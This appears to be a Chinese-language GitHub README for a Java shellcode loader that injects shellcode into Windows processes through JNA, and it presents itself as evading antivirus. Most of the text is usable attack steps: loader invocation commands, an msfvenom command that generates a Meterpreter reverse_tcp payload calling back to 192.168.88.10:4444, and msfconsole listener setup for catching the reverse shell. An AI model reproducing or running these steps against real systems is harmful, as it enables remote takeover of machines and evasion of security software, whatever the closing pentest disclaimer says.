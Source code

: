 ## Java ShellCode Loader

基于Java实现的ShellCode加载器，兼容32位及64位平台。

核心原理是利用Jna来调用Windows API，实现shellcode的注入。

运行环境：Jre >= 1.5

注：本项目已经内置在[yzddmr6/As-Exploits](https://github.com/yzddmr6/As-Exploits)的ShellCodeLoader模块中。

## 编译

maven package

## 使用

默认会随机注入32位进程，请使用32位的shellcode

```
java -jar ShellcodeLoader.jar shellcode_hex
```

注入x64位shellcode

```
java -jar ShellcodeLoader.jar --x64 shellcode_hex
```

## 举例

### kali

生成hex格式的ShellCode

```
┌──(root💀kali)-[~]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.88.10 LPORT=4444 -f hex
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of hex file: 708 bytes
fce88f0000006089e531d2648b5....
```

然后开启监听

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.88.10
set LPORT 4444
exploit -j
```

### 客户端

```
java -jar ShellcodeLoader.jar fce88f0000006089e531d2648b5....
```

即可收到反弹的Meterpreter

## 免杀

![image-20211205205857990](README.assets/image-20211205205857990.png)

## 注意事项

本项目仅供合法的渗透测试以及爱好者参考学习，请勿用于非法用途，否则自行承担相关责任。